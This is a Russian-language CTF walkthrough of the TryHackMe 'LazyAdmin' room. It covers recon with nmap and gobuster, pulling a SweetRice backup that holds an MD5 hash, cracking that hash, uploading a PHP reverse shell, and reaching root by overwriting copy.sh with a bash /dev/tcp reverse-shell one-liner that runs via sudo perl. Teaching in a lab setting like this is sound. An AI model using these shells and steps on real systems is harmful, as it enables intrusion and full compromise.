


# TryHackMe: LazyAdmin

## Task 1: Lazy Admin
Первым делом проведем разведку - найдем открытые порты на атакуемой машине:
```sh
nmap -sC -sV 10.10.63.85
```


Мы нашли:
- 22 port - SSH (OpenSSH 7.2p2)
- 80 port - HTTP (Apache httpd 2.4.18)

Посмотрим,что находится на 80 порте:


Стартовая страница представляет собой дефолтную страницу Apache. Пробуем найти какие-либо другие директории:
```sh
gobuster dir -u http://10.10.63.85/ -w /usr/share/wordlists/dirb/common.txt
```


Найдена диретория */content*. Перейдем к ней:


Видим сообщение о том, что сайт находится на этапе разработки, а также, что самое главное - в футере написан движок сайта. Больше на этой странице полезного ничего нет, даже единственная ссылка ни к чему серьезному не ведет.

Скорее всего, если сайт работает на каком-то движке, а в нашем случае это SweetRice, то должны быть еще директории. Как это можно узнать? Во-первых, как и ранее, использовать сканирование директорий, более тщательно подбирая словари, но мы пойдем альтернативным и более простым путем. Гуглим что-нибудь в стиле *SweetRice GitHub* и дейстительно находим репозиторий движка:


Ппробуем применить названия папок в репозитории в качестве директорий на нашем ресурсе:



Вот и первый успех - окно авторизации. Это хорошо, но с какими учетными данными входить? Нужно их как-то найти. Далее я решил поискать эксплойты к данному движку на **Exploit DB** и я был крайне удивлен, их нашлось целых 8 штук:


Судя по названиям есть только 1 эксплойт, который в теории может показать учетные данные при его эклуатации - **Backup Disclosure**. Более детально посмотрим его:


Видим описание, в котором сказано, что через путь */inc/mysql_backup* можно зайти и достать файл. Пробуем:



И вот действительно, в директории лежит файл с расширением *.sql*. Скачиваем его и анализируем:


Можно заметить, что присутствует два пользователя *admin* и *manager*, а также имеется зашифрованный пароль. Судя по всему, это пароль от учетной записи *manager*. Попробуем его расшифровать. Для начала стоит сохранить сохранить хэш пароля, который мы нашли, в отдельный текстовый файл (у меня это hashed-passwd.txt). Теперь нам необходимо узнать тип хэша, для чего мы используем утилиту **hash-identifier**:


В результате видим, что скорее всего это MD5. Пробуем расшифровать с помощью **John The Ripper**:
```sh
john -form=dnamic='md5($p)' --wordlist=/usr/share/wordlists/rockyou.txt hashed-passwd.txt
```


Полученный пароль - *Password123*
> Note: Будьте внимательны при использовании данной команды, т.к. есть риск плучить неверный пароль, как это роизошло у меня. Не используйте ...-w /usr/share..., вместо этого нужно использовать опцию через двойное тире ...--wordlist=/usr/share/.... Ниже показан пример неправильной дешифровки пароля


Мы получили логин и пароль для входа: **manager** | **Password123**. Пробуем авторизоваться на сайте:


Проанализировав сайт, можно сделать предположение о том, что в какую-нибудь из директорий можно что-то загрузить. Предположительно, может загружать что-то админ. Скорее всего это можно сделать через такие разделы, как *Post*, *Ads*, *Attachment* или куда-то еще. В таком случае попробуем посмотреть другие эксплойты, которые мы нашли ранее.

Эксплойт, связанный с загрузкой файлов - Arbitrary File Upload. Скачиваем файл и исследуем работу скрипта:


Для начала запрашиваются необходмые данные: таргет, логин, пароль и загружаемый файл. Далее формируетя ссылка вместе с данными для входа. Если данные верны, то авторизация проходит успешно и уже далее формируется новая ссылка, благодаря которой и происходит загрузка файла на сервер.

> Note: Тут при вводе таргета нужно быть предельно внимательным, т.к. из-за этого сформируется неправильная ссылка. Если ввести просто адрес (10.10.63.85), то файл не загрузится, потому что в итоговых ссылках будет пропущена директория */content*, что приведет к неправильному пути. Именно поэтому в поле таргет необходимо ввести 10.10.63.85/content

Также нам понадобится shell. Обратимся к известному репозиторию (https://github.com/pentestmonkey/php-reverse-shell) и скачаем файл. Меняем в нем настройки и расширение на .phtml во избежание фильтров (если таковые там вообще присутствуют):


Далее в отдельно терминале прослушиваем порт 4444 с помощью netcat:


Применяем загруженный эксплойт:


Далее при помощи утилиты curl активируем скрипт:
```sh
curl http://10.10.63.85/content/attachment/shell.phtml
```


Если все сделано верно, то мы получим reverse shell:


Сразу смотрим, кто мы и что мы можем делать от лица sudo:


### Question 1: What is the user flag?
Попробуем посмотреть, что у нас находится в директории */home*. Видим директорию пользователя itguy. Смотрим, что находится внутри директории */itguy* и находим первый флаг:


### Question 2: What is the root flag?
Нам доступны для выполнения *perl* для *backup.pl*. На GTFOBins есть способ повышения привилегий через perl, но в данном случае он напрямую не сработал:


А вот далее, прочитав файл *backup.pl*, можно заметить, что через непосредственно *perl* можно выполнить *backup.pl*, который в свою очередь выполнит *copy.sh*


Просмотрим содержимое файла *copy.sh*:


В прочем, содержимое его нас мало волнует, потому что мы можем менять и запускать его. Вносим изменения в файл:
```sh
echo "bash -c 'bash -i >& /dev/tcp/<your tun0 IP>/9001 0>&1'" > copy.sh 
```


В отдельном терминале слушаем порт 9001:
```sh
nc -lvnp 9001
```


Запуск:
```sh
./copy.sh
```

```sh
sudo /usr/bin/perl /home/itguy/backup.pl
```

Если все выполнено верно, получаем еще один reverse shell, причем с root-привилегиями:


Дальше дело техники, забираем root-флаг:


## Addons
P.S. №1: Все необходимые директории можно было найти не прибегая к GitHub, нужно было просканировать директории "правильным" словарем - **/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt**

P.S. №2: В данном случае можно было использовать не только один эксплойт **Arbitrary File Upload**. Можно рассмотреть и **Cross-Site Request Forgery / PHP Code Execution** через раздел */ads*. Как это работает? Мы копируем код эксплойта (как и ранее от PentestMonkey), меняем IP-адрес и порт, вставляем код поле *Ads code*. 


Загружаем и получаем следующий код:


Единственный момент, чтобы он запустился в дальнейшем, необходимо в настройках (Setting -> General -> Website Settings) убрать галочку c *Close Website*.

Переходим по ссылке, которую мы получили в параметре *src*, и, если все сделано правильно, мы получим reverse shell:


